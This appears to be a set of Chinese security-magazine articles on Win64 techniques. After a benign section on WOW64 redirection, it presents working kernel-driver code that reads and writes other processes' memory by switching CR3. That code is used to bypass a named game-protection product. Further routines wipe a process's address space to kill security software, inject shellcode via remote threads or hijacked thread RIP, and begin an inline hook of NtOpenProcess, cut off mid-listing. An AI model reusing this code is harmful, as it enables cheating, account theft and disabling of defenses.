typedef VOID (WINAPI *GETNATIVESYSTEMINFO)(LPSYSTEM_INFO);
GETNATIVESYSTEMINFO GetNativeSystemInfo;

BOOL IsWow64_TA()
{
    SYSTEM_INFO si1;
    SYSTEM_INFO si2;
    GetNativeSystemInfo=(GETNATIVESYSTEMINFO)GetProcAddress(LoadLibraryA("kernel32.dll"),"GetNativeSystemInfo");

    memset(&si1,0,sizeof(SYSTEM_INFO));
    memset(&si2,0,sizeof(SYSTEM_INFO));
    GetSystemInfo(&si1);
    GetNativeSystemInfo(&si2);
    if (si1.wProcessorArchitecture != si2.wProcessorArchitecture)
    {
        printf("The process is running under WOW64.\n");
        return TRUE;
    }
    else
    {
        printf("The process is not running under WOW64.\n");
        return FALSE;
    }
}
```

### WOW64 进程访问注册表

接下来说说 WOW64 进程访问注册表的问题。注册表中绝大多数项都是可以被 WOW64 进程直接访问的，但也有不少项会被重定向。由于项目实在太多，请参见 http://msdn.microsoft.com/en-us/library/aa384253(v=VS.85).aspx。基本上和程序与 CLSID 有关的项都被重定向了。

当 WOW64 进程访问到这些项时，会访问到下一级的 Wow6432Node 项上去。比如访问 `HKEY_LOCAL_MACHINE\Software\__test__` 的时候，会重定向到 `HKEY_LOCAL_MACHINE\Software\Wow6432Node\__test__`。如果你对此感到不爽，可以在调用 RegCreateKeyEx 或 RegOpenKeyEx 时在权限参数上增加一个常量 `KEY_WOW64_64KEY`，告诉系统无需被重定向，代码如下：

```c
VOID RegRedirectionTest()
{
    HKEY hkey, us;
    printf("Create key [__test__] in [HKEY_LOCAL_MACHINE\\Software\\Wow6432Node]!\n");

    RegOpenKeyExA(HKEY_LOCAL_MACHINE,"Software",0,KEY_ALL_ACCESS,&hkey);
    RegCreateKeyA(hkey,"__test__",&us);
    getchar();

    printf("Create key [__test__] in [HKEY_LOCAL_MACHINE\\Software]!\n");
    RegOpenKeyExA(HKEY_LOCAL_MACHINE,"Software",0,KEY_ALL_ACCESS|KEY_WOW64_64KEY,&hkey);
    RegCreateKeyA(hkey,"__test__",&us);
    getchar();
}
```

从测试中可见，在没有使用 `KEY_WOW64_64KEY` 常量前，项 `__test__` 创建在了 `HKEY_LOCAL_MACHINE\Software\Wow6432Node` 下；使用 `KEY_WOW64_64KEY` 常量后，项才创建在 `HKEY_LOCAL_MACHINE\Software` 下。

### WOW64 进程访问文件系统

再说说 WOW64 进程访问文件系统的问题。WOW64 进程只有访问 `%Program Files%` 和 `%System32%` 两个目录才会被重定向。简而言之，就是一个 WOW64 进程试图在 `C:\Program Files` 和 `C:\Windows\System32` 下创建文件或文件夹时，会被重定向到 `C:\Program Files (x86)` 和 `C:\Windows\SysWow64` 创建。当然你也可以选择拒绝被重定向，只要使用 `Wow64EnableWow64FsRedirection` 即可，代码如下：

```c
VOID FsRedirectionTest()
{
    Wow64EnableWow64FsRedirection=(WOW64ENABLEWOW64FSREDIRECTION)GetProcAddress(LoadLibraryA("kernel32.dll"),"Wow64EnableWow64FsRedirection");
    printf("Create folder [__test__] in [C:\\WINDOWS\\SYSWOW64]!\n");
    _mkdir("c:\\windows\\system32\\__test__");
    getchar();

    Wow64EnableWow64FsRedirection(FALSE); // Close Redirection
    printf("Create folder [__test__] in [C:\\WINDOWS\\SYSTEM32]!\n");
    _mkdir("c:\\windows\\system32\\__test__");
    getchar();
}
```

在使用 `Wow64EnableWow64FsRedirection(FALSE)` 前，文件夹实际创建到了 `C:\WINDOWS\SysWow64` 目录；使用后，文件夹才创建到 `C:\WINDOWS\System32` 目录。当使用 `Wow64EnableWow64FsRedirection(TRUE)` 后，会再次出现重定向效果。

本文到此结束，我在研究过程中参考了 magictong 网友提供的一些现成的资料，在此特地表示感谢。另外其他的研究来自 MSDN，由于本人的英语水平不好，怕误人子弟，故给出链接，如果本文的描述与 MSDN 有冲突，请以 MSDN 为准：http://msdn.microsoft.com/en-us/library/aa384249(v=VS.85).aspx。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动  
关键词：Win64，进程内存，游戏保护


# 在 Win64 上实现强制读/写进程内存

文：胡文亮

Win64 系统出现后，游戏保护一直是空白，所以很多有保护的游戏都不能在 64 位系统上运行，比如腾讯的游戏《地下城与勇士》。有一天我无意中发现，国内有个名叫“巨盾”的软件十分厉害，号称是世界上第一款支持 Win64 的游戏保护软件，被多家媒体广泛报道（腾讯、新浪、华军）。我有点怀疑，测试了一下，结果不出所料，它在 Win64 上的游戏保护十分脆弱，基本起不到什么保护作用（自称：“巨盾在杀木马、防盗号、保护网银和游戏的账号密码安全等方面表现出色”）。我心想，什么时候国内的游戏公司和安全公司把主要精力放在研发而不是吹牛上面，那就能和国外的同类软件有得一拼了（比如 EA 有脍炙人口的“极品飞车”和“孤岛危机”系列，而腾讯只有初学电脑的人才玩的“QQ 飞车”和“穿越火线”）。

好了，言归正传，首先回顾一下 Win32 平台上是怎么实现游戏保护的。“游戏保护”是个比较宽的概念，我的理解有两点：一是保证玩家利益，保证不被木马盗号；二是保护开发者的利益，保证不被外挂破坏游戏的公平性从而影响运营。从技术上说，就是“三防”：

- 一防读/写进程内存  
- 二防注入 DLL  
- 三防模拟按键

突破“防止模拟按键”可以使用 WinIO 3，这个在我半年前的文章里已经详细叙述过，这里不再赘述；突破“防止注入 DLL”可以在内核里使用 KeInsertQueueApc 来插入 DLL，网上已经有相关代码了；突破“读/写进程内存”的方法比较多了，可以使用插 APC 的方法，也可以使用“CR3 大法”。这两种方法都是不错的方法，如果要防御，很明显后者更难防御。今天要详细介绍的方法，也是后者。

通过把 EPROCESS.KPROCESS.DIRECTORY_TABLE_BASE 的值放进 CR3 里强制切换进程空间的方法，我在去年 3 月份曾经说过，不过那时是基于 Win32 系统的，在 Win64 系统上又有了不同之处。首先看看 DIRECTORY_TABLE_BASE 在 Windows 7 x64 上相对于 PKPROCESS 的偏移，代码如下：

```c
struct _KPROCESS
// 37 elements, 0x160 bytes (sizeof)
{
    /*0x000*/ struct _DISPATCHER_HEADER Header;
    // 29 elements, 0x18 bytes (sizeof)
    /*0x018*/ struct _LIST_ENTRY ProfileListHead;
    // 2 elements, 0x10 bytes (sizeof)
    /*0x028*/ UINT64 DirectoryTableBase;
    /*0x030*/ struct _LIST_ENTRY ThreadListHead;
    // 2 elements, 0x10 bytes (sizeof)
    ...
    省略后面的无关部分
    ...
};
```

从上面的结构体定义可知，DirectoryTableBase 在 PKPROCESS 的 0x28 偏移处，而 KPROCESS 是 EPROCESS 的第一个项，所以可以说 DirectoryTableBase 相对于 PEPROCESS 的偏移是 0x28。要强制读/写进程内存时，只要先保存 CR3 寄存器的旧值，然后把 EPROCESS.KPROCESS.DIRECTORY_TABLE_BASE 的值放进 CR3 寄存器里，就可以使用 RtlCopyMemory 来操作进程内存了。当读写完毕后，只要把 CR3 寄存器的旧值恢复即可。至于原理，可以去看看 WRK 中关于切换进程空间的源码，可发现内核切换进程空间就是这么实现的。虽然 WRK 里的相关代码非常之长，但核心原理就是这么简单。像打开进程只需要 PsLookupProcessByProcessId 以及 ObOpenObjectByPointer，但是 NtOpenProcess 的代码却非常之长。根据这个原理，我写出了如下代码：

```c
#define DIRECTORY_TABLE_BASE 0x028
ULONG64 Get64bitValue(PVOID p)
{
    if (MmIsAddressValid(p)==FALSE)
        return 0;
    return *(PULONG64)p;
}

void KReadProcessMemory(IN PEPROCESS Process, IN PVOID Address, IN UINT32 Length, OUT PVOID Buffer)
{
    ULONG64 pDTB=0, OldCr3=0, vAddr=0;
    //Get DTB
    pDTB=Get64bitValue((UCHAR*)Process + DIRECTORY_TABLE_BASE);
    if(pDTB==0)
    {
        DbgPrint("[x64Drv] Can not get PDT");
        return;
    }
    //Record old cr3 and set new cr3
    _disable();
    OldCr3=__readcr3();
    __writecr3(pDTB);
    _enable();
    //Read process memory
    if(MmIsAddressValid(Address))
    {
        RtlCopyMemory(Buffer, Address, Length);
        DbgPrint("[x64Drv] Data read: %ld", *(PDWORD)Buffer);
    }
    //Restore old cr3
    _disable();
    __writecr3(OldCr3);
    _enable();
}

void KWriteProcessMemory(IN PEPROCESS Process, IN PVOID Address, IN UINT32 Length, IN PVOID Buffer)
{
    ULONG64 pDTB=0, OldCr3=0, vAddr=0;
    //Get DTB
    pDTB=Get64bitValue((UCHAR*)Process + DIRECTORY_TABLE_BASE);
    if(pDTB==0)
    {
        DbgPrint("[x64Drv] Can not get PDT");
        return;
    }
    //Record old cr3 and set new cr3
    _disable();
    OldCr3=__readcr3();
    __writecr3(pDTB);
    _enable();
    //Write process memory
    if(MmIsAddressValid(Address))
    {
        RtlCopyMemory(Address, Buffer, Length);
        DbgPrint("[x64Drv] Data wrote.");
    }
    //Restore old cr3
    _disable();
    __writecr3(OldCr3);
    _enable();
}
```

大同小异，分别是 EPROCESS、虚拟地址、读（写）长度和输出（输入）缓冲区。代码都做了详细的注释，相信大家一看就能懂。其中有两个需要注意的代码细节。一是我在修改 CR3 寄存器的值时并没有使用内嵌汇编（当然也确实不支持直接内嵌汇编），而是使用了 WDK 文档里的函数。这几个函数（`__readcr3()`、`__writecr3()`、`_enable()`、`_disable()`）在 32 位驱动代码里也能使用，推荐大家在编程时尽量使用文档化的函数，而不是直接内嵌汇编；二是这两个函数既可以读/写 32 位进程的内存，也可以读/写 64 位进程的内存。在读/写 32 位进程的内存时，把 Address 的高 32 位设置 0，把低 32 位设置为你要修改的地址。

接下来请大家看看分发函数。为了简化代码，我使用了多个派遣例程（而不是使用一个派遣例程通过结构体传递多个参数），每个派遣例程都传送一个参数（每个派遣例程的功能从名字上就能看出），代码如下：

```c
UINT32 idTarget=0;
PEPROCESS epTarget=NULL;
UINT32 idGame=0;
PEPROCESS epGame=NULL;
UINT32 rw_len=0;
UINT64 base_addr=0;

case IOCTL_InputProcessId:
{
    memcpy(&idGame, pIoBuffer, sizeof(idGame));
    DbgPrint("[x64Drv] PID: %ld", idGame);
    status=PsLookupProcessByProcessId((HANDLE)idGame, &epGame);
    if(!NT_SUCCESS(status))
        DbgPrint("[x64Drv] Cannot get target! Status: %x; EPROCESS: %llx", status, (ULONG64)epGame);
    else
        DbgPrint("[x64Drv] Get target OK! EPROCESS: %llx", (ULONG64)epGame);
    break;
}

case IOCTL_InputBaseAddress:
{
    memcpy(&base_addr, pIoBuffer, 8);
    DbgPrint("[x64Drv] Base address: %lld", base_addr);
    break;
}

case IOCTL_InputReadWriteLen:
{
    memcpy(&rw_len, pIoBuffer, 4);
    DbgPrint("[x64Drv] Read/Write length: %ld", rw_len);
    break;
}

case IOCTL_KReadProcessMemory: //OutputBuffer
{
    KReadProcessMemory(epGame, (PVOID)base_addr, rw_len, pIoBuffer);
    if(epGame!=NULL)
        ObDereferenceObject(epGame);
    break;
}

case IOCTL_KWriteProcessMemory: //InputBuffer
{
    KWriteProcessMemory(epGame, (PVOID)base_addr, rw_len, pIoBuffer);
    if(epGame!=NULL)
    {
        ObDereferenceObject(epGame);
    }
    break;
}
```

KReadProcessMemory 和 KWriteProcessMemory 的参数，和 Win32 API 中两个读/写进程内存函数的原型基本一致。用户层调用示例如下：

```vb
Private Sub Command5_Click()    'ReadProcessMemory
    Dim pid As Long
    pid = CLng(Text1.Text)
    Dim ba As LONGLONG
    ba.high = 0                 '高32位设置为0
    ba.low = CLng(Text2.Text)   '低32位设置为地址
    Dim rw_len As Long
    rw_len = 4
    Dim dw As Long
    dw = 0
    With DrvController
        Call .IoControl(.CTL_CODE_GEN(&H801), VarPtr(pid), 4, 0, 0)
        Call .IoControl(.CTL_CODE_GEN(&H802), VarPtr(ba), 8, 0, 0)
        Call .IoControl(.CTL_CODE_GEN(&H803), VarPtr(rw_len), 4, 0, 0)
        Call .IoControl(.CTL_CODE_GEN(&H804), 0, 4, VarPtr(dw), 4)
    End With
    MsgBox dw
End Sub
```

接下来编写测试程序。首先编写一个程序 A，当作“游戏”，它的功能就是显示自己一个 DWORD 类型变量的地址；再编写一个程序 B，当作“外挂”或者“盗号程序”，来读/写程序 A 里那个 DWORD 变量的值（使用普通的 ReadProcessMemory 和 WriteProcessMemory）；再编写一个程序 C，使用驱动程序来读/写程序 A 里那个 DWORD 变量的值。这三个程序的代码都很简单，我就直接把核心代码贴出来不解释了，代码如下。

```vb
'程序A
Private Declare Function GetCurrentProcessId Lib "kernel32.dll" () As Long
Dim dw As Long

Private Sub Command1_Click()
    MsgBox dw, vbInformation
End Sub

Private Sub Command2_Click()
    If IsNumeric(Text1.Text) = False Or Trim$(Text1.Text) = "" Then
        Text1.Text = ""
        Exit Sub
    End If
    If CDbl(Text1.Text) > &H7FFFFFFF Or CDbl(Text1.Text) < 0 Then
        MsgBox "值异常！请设置0x0至0x7FFFFFFF之间的值！", vbCritical
        Exit Sub
    End If
    dw = CLng(Text1.Text)
    MsgBox "值设置成功！", vbInformation
End Sub

'程序C
Public Type LONGLONG
    low As Long
    high As Long
End Type

Private Sub Command1_Click()    'WriteProcessMemory
    Dim pid As Long
    pid = CLng(Text1.Text)
    Dim ba As LONGLONG
    ba.high = 0                 '高32位设置为0
    ba.low = CLng(Text2.Text)   '低32位设置为地址
    Dim rw_len As Long
    rw_len = 4
    Dim dw As Long
    dw = CLng(InputBox("Input a dword:", , CStr(&HD2B)))
    With DrvController
        Call .IoControl(.CTL_CODE_GEN(&H801), VarPtr(pid), 4, 0, 0)
        Call .IoControl(.CTL_CODE_GEN(&H802), VarPtr(ba), 8, 0, 0)
        Call .IoControl(.CTL_CODE_GEN(&H803), VarPtr(rw_len), 4, 0, 0)
        Call .IoControl(.CTL_CODE_GEN(&H805), VarPtr(dw), 4, 0, 0)
    End With
End Sub
```

接下来就是正式测试了，首先运行程序 A，再运行程序 B 和程序 C，然后用程序 B 和程序 C 读取程序 A 指定地址的内容，如图 1 所示。


图 1

关掉这几个打开的程序，然后使用“巨盾”保护 Game.exe，如图 2 所示。


图 2

再次运行这几个程序，可以发现程序 B 失效了，但是程序 C 没有失效，如图 3 所示。


图 3

就在我准备结束本文时，发现“巨盾”还有可笑的自我保护，如图 4 所示。


图 4

于是我只好再写几行代码来突破这个可笑的自我保护（进程虚拟地址空间擦除，简称 PVASE），代码如下：

```c
NTSTATUS HwlPVASE64(PEPROCESS Process)
{
    ULONG64 pDTB=0, OldCr3=0, vAddr=0;
    //Get DTB
    pDTB=Get64bitValue((UCHAR*)Process + DIRECTORY_TABLE_BASE);
    if(pDTB==0)
    {
        DbgPrint("[x64Drv] Can not get PDT");
        return STATUS_UNSUCCESSFUL;
    }

    //Record old cr3 and set new cr3
    _disable();
    OldCr3=__readcr3();
    __writecr3(pDTB);
    _enable();

    //P.V.A.S.E
    for(vAddr=0; vAddr<=0x7fffffff; vAddr+=0x1000)
    {
        if(MmIsAddressValid((PVOID)vAddr))
        {
            __try
            {
                ProbeForWrite((PVOID)vAddr, PAGE_SIZE, PAGE_SIZE);
                memset((PVOID)vAddr, 0x0, PAGE_SIZE);
            }
            __except(1)
            {
                continue;
            }
        }
    }

    //Restore old cr3
    _disable();
    __writecr3(OldCr3);
    _enable();

    //return status
    return STATUS_SUCCESS;
}

case IOCTL_MmKillProcess64:
{
    __try
    {
        memcpy(&idTarget, pIoBuffer, sizeof(idTarget));
        DbgPrint("[x64Drv] PID: %ld", idTarget);

        status=PsLookupProcessByProcessId((HANDLE)idTarget, &epTarget);
        if(!NT_SUCCESS(status))
        {
            DbgPrint("[x64Drv] Cannot get target! Status: %x; EPROCESS: %llx", status, (ULONG64)epTarget);
            break;
        }
        else
        {
            DbgPrint("[x64Drv] Get target OK! EPROCESS: %llx", (ULONG64)epTarget);
            HwlPVASE64(epTarget);
            ObDereferenceObject(epTarget);
        }
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        ;
    }
    break;
}
```

把“巨盾”主进程 ggsafe.exe 的 PID 填入程序 C 里，点击“结束进程”，ggsafe.exe 的进程就悄无声息地退出了，连个出错的对话框都没有。帮我测试的网友告诉我，这个方法对 360 8.0 也有效。

顺便说一句，如果仅仅是为了突破“巨盾”在……Win64 上的游戏保护功能，根本不用什么驱动，用户态程序就能达到目的。甚至，一个简单的脚本或者批处理就行了。巨盾“没有注册表保护（或者说忽略了）”，如果把“巨盾”主程序的兼容性设置为“Win95”（HKCU/Software/Microsoft/Windows NT/CurrentVersion/AppCompatFlags/Layers），它就无法运行了，如图 5 所示。


图 5

本文到此结束，但是疑问并没有结束。曾经有人质疑这种方法不稳定，我在两台真机上各进行了 50 次测试（CPU 分别是 Core 2 X9100 和 Athlon II X4 640，内存分别是 4GB DDR2 800 和 4GB DDR3 1333），都没有出现过进程崩溃或者蓝屏的现象。因此可以“武断”地说：这个方法在大多数电脑上运行是没有问题的。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：驱动
- 关键词：Win64，代码注入，钩子


# 在 Win64 上实现代码注入

文 / 胡文亮

在 Win64 上实现代码注入，原理和在 Win32 实现代码注入没有什么本质的不同，但是代码形式有着巨大的不同。我研究了半个多月，经历了不少的痛苦与喜悦，终于研究出了一些拿得出手的东西，现借杂志这个平台共享一下。本文比较长，没有耐心的读者可以选择自己感兴趣的部分看。本文总体上分三大部分：

- 1. 代码注入的意义并分析某些时候 DLL 注入失败的原因；
- 2. 代码注入的两种新方法；
- 3. 利用代码注入实现 Ring3 Inline Hook。

另外阅读本文需要一定的《汇编语言》和《计算机组成原理》的知识，如果遇到没有学过的相关内容请先补课。

首先说说为什么要研究代码注入。一般来说，代码注入要十分复杂（用汇编语言编写程序段再转换成 shellcode），有很多注意事项（比如调用 API 就是个特别要注意的问题，地址要动态填入），直接用 DLL 注入方便多了（能用高级语言编写，不用考虑各种奇奇怪怪的问题），为什么还要用代码注入呢？主要原因有二：1. DLL 注入很容易查出来，代码注入很难查出来；2. 代码注入的成功率比 DLL 注入大。

“成虎”）。说实话，我没有研究出现这个问题的原因，也没有统计过出现这个问题的概率，因为在我测试的过程中根本没有出现过这样的问题！虽然在我测试时并没有出现这种问题，但我还是宁可信其有，不可信其无。

我的直觉告诉我，这个函数出问题，九成是微软故意搞的鬼。因为大家都知道微软很喜欢做些损人利己（比如 Win64 上的强制驱动程序签名）和损人不利己的事情。我用谷歌搜索了一下，发现 Win7 的 Kernel32.dll 里多了一个导出函数 CreateRemoteThreadEx（MSDN 介绍：http://msdn.microsoft.com/en-us/library/dd405484(VS.85).aspx）。在这个函数很长的介绍里，我发现了如下一段不起眼的文字，我觉得这就是网上这么多人说 CreateRemoteThread 失败的根本原因：

> Terminal Services isolates each terminal session by design. Therefore, **CreateRemoteThread fails if the target process is in a different session than the calling process.**

这么多废话化为一句话，就是说 CreateRemoteThread 过时了，大家一起用新函数 CreateRemoteThreadEx 吧（类似这样的情况还有 SetWindowLongPtr 和 SetWindowLong，微软推荐使用 SetWindowLongPtr 兼容 Win32 和 Win64 系统）！

接下来说说代码注入的过程。其实代码注入的过程比 DLL 注入的过程更加简单，基本流程分为四步：

- 1. 编写汇编代码并转化为 shellcode；
- 2. 在运行时动态修改 shellcode 的某些部分（非必需，比如要调用 API 或 Hook 时）；
- 3. 在目标进程中申请内存空间并把 shellcode 写入；
- 4. 执行已经在目标进程内的 shellcode。

对于第四点，网上已有的思路是使用 CreateRemoteThread 这个函数实现，但我提出以下两种新的方法，不使用 CreateRemoteThread。

## 1. 使用 CreateRemoteThreadEx

使用 CreateRemoteThreadEx 本质上和使用 CreateRemoteThread 没有区别，但能防止当注入进程和被注入进程处于不同会话（Session）时调用失败。

```c
BOOL TaCodeInjectEx(DWORD pid, char *shellcode, SIZE_T length)
{
    DWORD newtid;
    SIZE_T stNOBW;
    HANDLE hProcess, hThread;
    LPVOID scBufferAddr;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);
    if (hProcess == NULL)
        return FALSE;
    scBufferAddr = VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, scBufferAddr, shellcode, length, &stNOBW);
    hThread = CreateRemoteThreadEx(hProcess, NULL, 1024,
        (LPTHREAD_START_ROUTINE)scBufferAddr, NULL, 0, NULL, &newtid);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}
```

### 2. 通过修改线程 RIP 来执行 shellcode

RIP 的全名是指令指针寄存器（Instruction Pointer Register）。在 32 位程序里是 EIP，在 16 位程序里是 IP。每次位数翻倍，都只是增加或变化了前缀而已。简单地说 RIP 就是一个值，表示 CPU 执行到了哪里。在汇编程序里这个寄存器不能被直接访问，只能被各种转移指令修改（比如遇到 call/jmp 等指令时这个值就会变化）。

Windows 提供了两个函数来获得和修改指定线程的 RIP，就是 GetThreadContext 和 SetThreadContext。Context 的翻译为“上下文”，Windows 通过 CONTEXT 结构体来记录线程上下文，里面有线程的各种寄存器的值。基于不同体系处理器的 Windows 的 CONTEXT 结构体都不同。目前 Windows 按运行的处理器不同来分有三个版本：X86、AMD64、IA64。据说 Windows 8 能直接运行在 ARM 处理器上，那么还会有第四个版本的 CONTEXT 结构体。Win64 的 CONTEXT 结构体如下：

```c
typedef struct _CONTEXT64
{
    DWORD64 P1Home;
    DWORD64 P2Home;
    DWORD64 P3Home;
    DWORD64 P4Home;
    DWORD64 P5Home;
    DWORD64 P6Home;
    DWORD ContextFlags;
    DWORD MxCsr;
    WORD  SegCs;
    WORD  SegDs;
    WORD  SegEs;
    WORD  SegFs;
    WORD  SegGs;
    WORD  SegSs;
    DWORD EFlags;
    DWORD64 Dr0;
    DWORD64 Dr1;
    ...
    DWORD64 Dr2;
    DWORD64 Dr3;
    DWORD64 Dr6;
    DWORD64 Dr7;
    DWORD64 Rax;
    DWORD64 Rcx;
    ...
    DWORD64 Rip; // 指令指针寄存器
    struct {
      M128A Header[2];
      M128A Legacy[8];
      M128A Xmm0;
      ...
      M128A Xmm15;
    } DUMMYSTRUCTNAME;
    M128A VectorRegister[26];
    DWORD64 VectorControl;
    DWORD64 DebugControl;
    DWORD64 LastBranchToRip;
    DWORD64 LastBranchFromRip;
    DWORD64 LastExceptionToRip;
    DWORD64 LastExceptionFromRip;
} CONTEXT64, *PCONTEXT64;
```

对这个巨大的结构体我们只关心 RIP 就行了。我们通过使用 SetThreadContext 修改线程 RIP，使线程执行我们的 shellcode。代码如下（很明显这个函数比上个函数多了参数 OffsetOldRip，它的作用在构造 shellcode 时会讲）：

```c
BOOL TaCodeInjectNoRemoteThread(DWORD pid, char *shellcode, SIZE_T length, DWORD OffsetOldRip)
{
    CONTEXT64 ctx={0};
    HANDLE hThread,hProcess;
    SIZE_T stNOBW;
    LPVOID scBufferAddr;
    ULONG64 oldrip;
    DWORD tid=GetFirstThread(pid);
    ...
}
```

```c
hThread=OpenThread(THREAD_ALL_ACCESS,0,tid);
hProcess=OpenProcess(PROCESS_ALL_ACCESS,0,pid);
if(hThread==NULL || hProcess==NULL)
    return FALSE;
SuspendThread(hThread);
ctx.ContextFlags = CONTEXT_FULL;
GetThreadContext(hThread,(LPCONTEXT)(&ctx));
oldrip=ctx.Rip;
if (ShellcodeOffsetToWriteOldRip!=0)
    memcpy(shellcode+OffsetOldRip,&oldrip,8);
scBufferAddr=VirtualAllocEx(hProcess,NULL,length,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess,scBufferAddr,shellcode,length,&stNOBW);
ctx.Rip=(ULONG64)scBufferAddr;
SetThreadContext(hThread,(LPCONTEXT)(&ctx));
ResumeThread(hThread);
CloseHandle(hThread);
CloseHandle(hProcess);
return TRUE;
}
```

说完了两种代码注入的方法，接下来说说 shellcode 的构造。最终典型示例莫过于调用 MessageBoxA 弹框了。虽然两种注入方法都能实现代码注入，但是要构造的 shellcode 明显不同。针对第一种注入方法的汇编代码如下，思路比较清晰明了：

```asm
sub rsp, 40
xor rcx, rcx
xor rdx, rdx
xor r8, r8
xor r9, r9
mov rax, 8000800080008000h ; MessageBoxA 的地址，要动态填写
call qword ptr rax
add rsp, 40
ret
nop
nop
```

转化为机器码如下（使用 X64ASM_TO_X64BIN 转换）：

```c
char shellcode[]={
"\x48\x83\xEC\x28"
"\x48\x33\xC9"
"\x48\x33\xD2"
"\x4D\x33\xC0"
"\x4D\x33\xC9"
"\x48\xB8\x00\x80\x00\x80\x00\x80\x00\x80" // base+18: MsgBoxA
"\xFF\xD0"
"\x48\x83\xC4\x28"
"\xC3\x90\x90";
```

简单解释一下为什么要在代码后面加上两个 NOP。由于人工数机器码的长度很麻烦，于是自己约定一个结束的标志：连续的两个 NOP。所以确定机器码长度使用函数 Ubound 就可以了。

```c
SIZE_T Ubound(char shellcode[])
{
    SIZE_T i=0;
    char a,b;
    for(i=0;i<1234567890;i++)
    {
        memcpy(&a,shellcode+i,1);
        memcpy(&b,shellcode+i+1,1);
        if(a==(char)0x90 && b==(char)0x90)
            return i;
    }
}
```

初始化代码（动态填入 MessageBoxA 地址）：

```c
VOID InitShellcode0()
{
    ULONG64 AddressOfMessageBoxA;
    AddressOfMessageBoxA=(ULONG64)GetProcAddress(LoadLibraryA("user32.dll"),"MessageBoxA");
    memcpy(shellcode0+18,&AddressOfMessageBoxA,8);
}
```

调用（shell 函数创建测试进程，KProc 函数结束测试进程）：

```c
pid=Shell("c:\\windows\\system32\\calc.exe");
InitShellcode0();
TaCodeInjectEx(pid,shellcode0,Ubound(shellcode0));
getchar();
KProc(pid);
```

针对第二种注入方法的汇编代码如下：

```asm
mov r15,rsp
sub rsp,4*8
and spl,0F0h
xor rcx,rcx
xor rdx,rdx
xor r8,r8
xor r9,r9
mov rax,8000800080008000h ;MsgBoxA address
call qword ptr rax
mov rsp,r15
mov rax,8000800080008000h ;old rip
jmp rax
nop
nop
```

转化为机器码：

```c
char shellcode1[53]=
"\x4C\x8B\xFC"
"\x48\x83\xEC\x20"
...
"\x48\xB8\x00\x80\x00\x80\x00\x80\x00\x80" //base+25: MsgBoxA
"\xFF\xD0"
"\x49\x8B\xE7"
"\x48\xB8\x00\x80\x00\x80\x00\x80\x00\x80" //base+40: Old RIP
"\xFF\xE0"
"\x90\x90";
```

初始化代码如下：

```c
VOID InitShellcode1()
{
    ULONG64 AddressOfMessageBoxA;
    AddressOfMessageBoxA=(ULONG64)GetProcAddress(LoadLibraryA("user32.dll"),"MessageBoxA");
    memcpy(shellcode1+25,&AddressOfMessageBoxA,8);
}
```

调用代码（最后一个参数 40 就是说在 shellcode+40 的偏移处填写旧 RIP，当执行完 shellcode 后跳回到旧的 RIP 处执行）：

```c
pid=Shell("c:\\windows\\system32\\calc.exe");
InitShellcode1();
Sleep(1000);
TaCodeInjectNoRemoteThread(pid,shellcode1,Ubound(shellcode1),40);
getchar();
KProc(pid);
```

为什么使用第二种方法注入 shellcode 代码就会不同呢？因为我们直接修改了线程的 RIP，堆栈是怎么样的我们并不知道，所以不能直接通过 sub/add rsp 来修改堆栈，否则可能会造成堆栈没有按照 16 字节对齐。如果堆栈没有按照 16 字节对齐，在调用 API 时会导致程序崩溃。所以必须先保存旧的 RSP，在减了 RSP 后，用 AND 指令强制 RSP 按照 16 字节对齐。最后一个 JMP，是跳回到原来的 RIP，否则线程会死掉或者崩溃。这两个代码的执行效果都是一样的（如图 1 所示），点击了弹出框的【确定】按钮后，计算器一切正常，功能没有受到任何影响（其实即使不按下【确定】按钮也照样能正常使用，不存在“模式窗体”效应）。


接下来讲解如何利用代码注入实现 Ring3 Inline Hook。其实 Inline Hook 的本质就是改变代码流程，只要跳转得当就行，没什么特别的。接下来以 Hook NtOpenProcess 为例子讲解。首先看看 NtOpenProcess 的原型：

```c
NTSTATUS NtOpenProcess(
    __out   PHANDLE ProcessHandle,
    __in    ACCESS_MASK DesiredAccess,
    __in    POBJECT_ATTRIBUTES ObjectAttributes,
    __in_opt PCLIENT_ID ClientId
)
```

由于要打开的进程 ID 在第四个参数里，所以我们的 Fake_NtOpenProcess 要过滤第四个参数：

```c
Fake_NtOpenProcess proc
    mov rax,[r9]                 ; 获得 ClientId->UniqueProcess 的值
    cmp rax,1234h                ; 比较进程ID是不是我们要保护的进程 ID
    jne oricode                  ; 如果不是就跳到后面执行原始代码
    xor rax,rax                  ; 清空 rax
    mov [r9],rax                 ; 把 rax 的值放到[r9]，即把 ClientId->UniqueProcess 的值设置为 0
oricode:
    [NtOpenProcess 的原始代码]      ; 由于 NtOpenProcess 的原始代码只有 16 字节，所以直接复制过来了
Fake_NtOpenProcess endp
```

对应的机器码如下：

```c
char shellcode[100]=
"\x49\x8B\x01"                // mov rax,[r9]
"\x48\x3D\x34\x12\x00\x00"    // cmp rax,1234h
"\x75\x06"                    // jne oricode
"\x48\x33\xC0"                // xor rax,rax
"\x49\x89\x01";               // mov [r9],rax
                              // oricode:
```

接下来把这段 shellcode 注入指定进程并 HOOK。

为了方便，我把使用代码注入来 Inline Hook Native API 的方法封装成了函数，只要传入 PID、函数名、shellcode 地址、shellcode 中处理代码的长度、shellcode 的总长度即可。解释一下，由于 Win64 上 NTDLL 里 Native API 的特殊性（每个函数有且只有 16 字节长），所以这里的 HOOK 不同往常，只需跳转一次即可。具体做法就是把原来的 16 字节抹掉写入 JMP（12 字节），剩下的 4 字节填入 NOP，然后在 FAKE 函数的末尾写入原来的 16 字节代码。当然还有很多不同的处理方法，这个只是我个人的思路，希望大家能举一反三提出自己的思路。

```c
BOOL HookNtdllAPI(DWORD ProcessId, CHAR *FunctionName, CHAR *DisposeCode, SIZE_T DisposeCodeLength, SIZE_T BufferLength)
{
    HANDLE hProcess;
    SIZE_T useless;
    DWORD oldpt;
    LPVOID FakeFunctionPtr;
    ULONG64 FunctionPtr, dwFakeFunctionPtr;
    char JmpCode[17]=
        "\x48\xB8\x00\x80\x00\x80\x00\x80\x00\x80"
        "\xFF\xE0"
        "\x90\x90\x90\x90";
    char OriCode[16];

